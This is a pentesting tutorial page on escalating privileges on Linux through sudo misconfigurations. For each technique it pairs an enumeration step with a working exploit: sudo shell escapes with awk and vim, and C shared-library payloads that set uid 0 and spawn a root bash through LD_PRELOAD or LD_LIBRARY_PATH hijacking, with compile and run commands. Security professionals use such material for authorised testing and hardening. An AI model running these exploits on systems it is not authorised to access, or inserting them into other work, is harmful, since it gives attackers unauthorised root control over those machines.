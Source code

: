 # Sudo Misconfigurations

## Theory

`sudo` is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur when the configuration of sudo is not properly managed.

## Practice

### Sudo Binary Abuse

{% tabs %}
{% tab title="Enumerate" %}
If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

Check what binary you can run with sudo.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root): /usr/bin/awk
```
{% endtab %}

{% tab title="Exploit" %}
If you can run a binary with sudo rights, you may want to have look at [GTFOBins](https://gtfobins.github.io/), a curated list of Unix binaries that can be exploited to bypass local security restrictions. In this case with `awk`, we can spawn a shell with following commands:

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```
{% endtab %}
{% endtabs %}

## NOPASSWD

{% tabs %}
{% tab title="Enumerate" %}
The following `sudo` configuration allow an user to execute some command with another user's privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```
{% endtab %}

{% tab title="Exploit" %}
If you can run a binary with sudo rights, you may want to have look at [GTFOBins](https://gtfobins.github.io/), a curated list of Unix binaries that can be exploited to bypass local security restrictions. In this case with `vim`, we can spawn a shell with following commands:

```bash
sudo -u root vim -c '!sh'
```
{% endtab %}
{% endtabs %}

## LD\_PRELOAD

{% tabs %}
{% tab title="Enumerate" %}
`LD_PRELOAD` is an optional environmental variable containing one or more paths to shared libraries, or shared objects, that the loader will load before any other shared library including the C runtime library (libc.so) This is called preloading a library.

If `env_keep+=LD_PRELOAD` is explicitly defined in the `sudo -l` output and you can call some command with sudo, you can escalate your privileges.

```bash
$ sudo -l

env_reset, env_keep+=LD_PRELOAD
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/find
```
{% endtab %}

{% tab title="Exploit" %}
To abuse it we can write a shared library

```c
//Saved as /tmp/privEsc.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash -p");
}
```

compile it

```bash
gcc -fPIC -shared -o privEsc.so /tmp/privEsc.c -nostartfiles
```

Then run the sudo binary with `LD_PRELOAD` environement variable

```bash
#Use any command you can run with sudo
sudo LD_PRELOAD=./privEsc.so <COMMAND>

#Example
sudo LD_PRELOAD=./privEsc.so /usr/bin/find
```
{% endtab %}
{% endtabs %}

### LD\_LIBRARY\_PATH

{% tabs %}
{% tab title="Enumerate" %}
the `LD_LIBRARY_PATH` env variable controls the path where libraries are going to be searched.

If `env_keep+=LD_LIBRARY_PATH` is explicitly defined in the `sudo -l` output and you can call some command with sudo, you can escalate your privileges.

```bash
$ sudo -l

env_reset, env_keep+=LD_LIBRARY_PATH
User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/find
```
{% endtab %}

{% tab title="Exploit" %}
To abuse it we can do as follow

First, print the shared libraries of the sudo program. We will take `/usr/bin/find` as an example

```bash
$ ldd /usr/bin/find
        linux-vdso.so.1 (0x00007ffd627aa000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00007f6ebe9cc000)
        libm.so.6 => /lib/x86_64-linux-gnu/libm.so.6 (0x00007f6ebe8ed000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f6ebe70c000)
        libpcre2-8.so.0 => /lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00007f6ebe672000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f6ebea5f000)
```

Use one of the shared objects in the list and we will hijack it by creating a file with same name. For this demonstration, we will be targeting the `libpcre2-8.so.0` file.

```c
//Saved as /tmp/libpcre2-8.so.0.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_LIBRARY_PATH");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
```

compile it

```bash
gcc -o /tmp/libpcre2-8.so.0 -shared -fPIC /tmp/libpcre2-8.so.0.c
```

Then run the sudo binary with `LD_LIBRARY_PATH` environement variable

```bash
#Use any command you can run with sudo
sudo LD_LIBRARY_PATH=/tmp <COMMAND>

#Example
sudo LD_LIBRARY_PATH=/tmp /usr/bin/find
```
{% endtab %}
{% endtabs %}

### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://atom.hackstreetboys.ph/linux-privilege-escalation-environment-variables/" %}
